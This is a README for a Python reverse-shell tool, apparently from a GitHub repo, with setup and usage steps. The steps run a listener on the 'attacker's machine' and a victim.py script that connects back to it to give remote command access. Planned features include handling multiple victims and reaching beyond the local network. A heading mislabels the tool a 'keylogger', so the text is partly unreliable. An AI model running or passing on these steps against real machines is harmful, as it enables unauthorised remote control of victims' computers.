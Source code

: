 # This is a Linux Reverse Shell in Python

The reverse shell has two files. The `server.py` needs to run on the attacker's machine to set up the server and start listening for connections while the `victim.py` needs to run on the victim's machine to connect to the attacker's machine.

## Steps to use this keylogger:
  1. Clone this repo:
```bash
git clone https://github.com/SANTHOSH17-DOT/attack-vectors-suite.git
```
  2. cd into the `REVERSESHELL` directory
```bash
cd attack-vectors-suite\REVERSESHELL
```
  3. run `pip install -r requirements.txt`
  4. run `python3 server.py 0.0.0.0 9999`
  * Once you press enter the server starts:
![server](https://user-images.githubusercontent.com/60394916/220286770-9a048bf1-2aad-496c-9ebe-d95fc293dc9d.PNG)

  5. run `python3 victim.py 0.0.0.0 9999` on another terminal:

![victim](https://user-images.githubusercontent.com/60394916/220286991-8641b75b-3d4e-421d-869e-f8ee177661bd.PNG)
  * Let's go back to the attacker's terminal and we should see a shell:

![server1](https://user-images.githubusercontent.com/60394916/220287544-2c4b5574-f780-4ed8-a28e-4bdef6a3ee17.PNG)


Current abilities:

- [x] Supports only one connection from a victim
- [x] Able to run basic commands on the victim, e.g ls, pwd, whomai
- [x] Able to close connection on the victim


Areas of improvement:

- [ ] Support connections from multiple victims
- [ ] Get off the local network. Now, it only works when both attacker and victim are on the same network.
- [ ] Enable encryption
- [ ] Fix the output format from the victim machine
